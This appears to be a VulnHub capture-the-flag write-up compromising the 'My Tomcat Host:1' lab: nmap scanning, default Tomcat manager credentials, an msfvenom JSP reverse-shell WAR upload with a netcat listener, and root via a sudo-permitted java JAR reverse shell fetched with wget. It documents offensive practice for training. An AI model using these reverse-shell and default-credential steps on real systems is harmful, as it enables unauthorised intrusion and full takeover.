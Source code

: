 # My Tomcat Host:1 - VulnHub

[My Tomcat Host:1 VulnHub link](https://www.vulnhub.com/entry/my-tomcat-host-1,457/)

### arp scan to find out our machine ip address on the network
![arp-scan](images/MyTomcatHost-1/arp-scan.png)

we found out our target ip address is 192.168.56.102

## Nmap
first we need to check what ports and services are available for us in the target machine using nmap tool:
![nmap-scan](images/MyTomcatHost-1/nmap-scan.png)

*command exaplain:*

*nmap* - network scanner tool used to discover hosts and services on machines.

*-sC* - preforming script scan using default scripts.

*-sV* - preforming service version detection.

*-oA* - output in all formats.

*-Pn* - treating the host as online - skip host discovery (it was necessary for nmap scan on this machine).

it is recommanded to scan the machine at the background for all ports while enumerating the machine, since all ports scan found the same port I wont show it.

from the nmap scan we discovered 2 ports are open:
*port 22* - ssh OpenSSH.
*port 8080* - http Apache Tomcat 9.0.31.

## Apache Tomcat:
if we browse to the the link:
 http://192.168.56.102:8080/
we got the Tomcat's welcome screen:
![tomcat-welcome-screen](images/MyTomcatHost-1/tomcat-welcome-screen.png)
if we try to enter the Manager App we get a authentication request:
![tomcat-auth-req](images/MyTomcatHost-1/tomcat-auth-req.png)
after searching the default username and password of tomcat version 9/8 on goole we found:
username: tomcat
password: tomcat

and we got in!
![tomcat-manager](images/MyTomcatHost-1/tomcat-manager.png)
now from the manager page we can uplaod new service applications to the server.
lets upload a java WAR file reverse shell to get a shell to the machine.

## Reverse shell:
first lets create a reverse shell in java to WAR file using msfvenom and run netcat listener on port 1234:
![reverse-shell-create](images/MyTomcatHost-1/reverse-shell-create.png)

*command explain:*
*msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.102 LPORT=1234 -f war > shell.war*
*msfvenom* - rapid7 (creators of metasploit tool) tool for payload generation.
*-p* - payload to use.
*LHOST* - attacker ip address.
*LPORT* - attacker ip port.
*-f* - output format.
generating payload into shell.war file.

*nc -lvp 1234*
*nc* - netcat, tcp and udp tool for connections and listens.
*-l* - listen for connections.
*-v* - verbose output.
*-p* - port number.

let's upload the war file into the tomcat website using the service war upload in the manager page:
![upload-war-file](images/MyTomcatHost-1/upload-war-file.png)

if we browse to the service url: http://192.168.56.102:8080/shell/
we got a shell!
let's get a normal shell using python pty:
![foothold-shell](images/MyTomcatHost-1/reverse-shell-foothold.png)

let's see our sudo allowed commands:
![sudo-commands](images/MyTomcatHost-1/sudo-commands.png)
we can run java as root!
lets use the same method we got the reverse shell to get a root access but this time we create a jar file.
we send the jar file to the target machine using python SimpleHTTPServer and wget in tmp folder ( we got write permissions), using metasploit to connect to the reverse shell:
*on the attacker machine:*
![reverse-shell-send](images/MyTomcatHost-1/reverse-shell-send.png)
*on the target machine:*
![wget-revershell](images/MyTomcatHost-1/wget.png)

*fire up metasploit and set up the exploit:*
![msf](images/MyTomcatHost-1/msf.png)
*run the jar file in th target machine:*
![run-jar](images/MyTomcatHost-1/run-jar.png)

and we got root access!!
![root](images/MyTomcatHost-1/root.png)

